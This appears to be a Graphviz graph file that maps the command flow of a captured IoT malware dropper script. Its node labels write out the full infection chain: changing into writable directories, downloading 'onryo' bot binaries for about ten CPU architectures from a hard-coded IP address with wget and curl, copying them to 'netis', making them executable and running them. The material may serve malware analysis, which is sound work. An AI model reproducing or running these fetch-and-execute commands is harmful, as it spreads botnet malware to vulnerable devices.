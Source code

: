 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://80.211.62.163/bins/onryo.x86 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://80.211.62.163/bins/onryo.x86 "];
12 -> 14 [label=";,"];
14 [label="cat onryo.x86 netis "];
14 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 32 [label="||,"];
32 [label="wget http://80.211.62.163/bins/onryo.mips "];
32 -> 34 [label=";,"];
34 [label="curl -O http://80.211.62.163/bins/onryo.mips "];
34 -> 36 [label=";,"];
36 [label="cat onryo.mips netis "];
36 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 54 [label="||,"];
54 [label="wget http://80.211.62.163/bins/onryo.mpsl "];
54 -> 56 [label=";,"];
56 [label="curl -O http://80.211.62.163/bins/onryo.mpsl "];
56 -> 58 [label=";,"];
58 [label="cat onryo.mpsl netis "];
58 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 76 [label="||,"];
76 [label="wget http://80.211.62.163/bins/onryo.arm4 "];
76 -> 78 [label=";,"];
78 [label="curl -O http://80.211.62.163/bins/onryo.arm4 "];
78 -> 80 [label=";,"];
80 [label="cat onryo.arm4 netis "];
80 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 98 [label="||,"];
98 [label="wget http://80.211.62.163/bins/onryo.arm5 "];
98 -> 100 [label=";,"];
100 [label="curl -O http://80.211.62.163/bins/onryo.arm5 "];
100 -> 102 [label=";,"];
102 [label="cat onryo.arm5 netis "];
102 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 120 [label="||,"];
120 [label="wget http://80.211.62.163/bins/onryo.arm6 "];
120 -> 122 [label=";,"];
122 [label="curl -O http://80.211.62.163/bins/onryo.arm6 "];
122 -> 124 [label=";,"];
124 [label="cat onryo.arm6 netis "];
124 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 142 [label="||,"];
142 [label="wget http://80.211.62.163/bins/onryo.arm7 "];
142 -> 144 [label=";,"];
144 [label="curl -O http://80.211.62.163/bins/onryo.arm7 "];
144 -> 146 [label=";,"];
146 [label="cat onryo.arm7 netis "];
146 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 164 [label="||,"];
164 [label="wget http://80.211.62.163/bins/onryo.ppc "];
164 -> 166 [label=";,"];
166 [label="curl -O http://80.211.62.163/bins/onryo.ppc "];
166 -> 168 [label=";,"];
168 [label="cat onryo.ppc netis "];
168 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 186 [label="||,"];
186 [label="wget http://80.211.62.163/bins/onryo.m68k "];
186 -> 188 [label=";,"];
188 [label="curl -O http://80.211.62.163/bins/onryo.m68k "];
188 -> 190 [label=";,"];
190 [label="cat onryo.m68k netis "];
190 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./netis ssh.wget "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://80.211.62.163/bins/onryo.sh4 "];
208 -> 210 [label=";,"];
210 [label="curl -O http://80.211.62.163/bins/onryo.sh4 "];
210 -> 212 [label=";,"];
212 [label="cat onryo.sh4 netis "];
212 -> 214 [label=";,"];
214 [label="netis "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
}
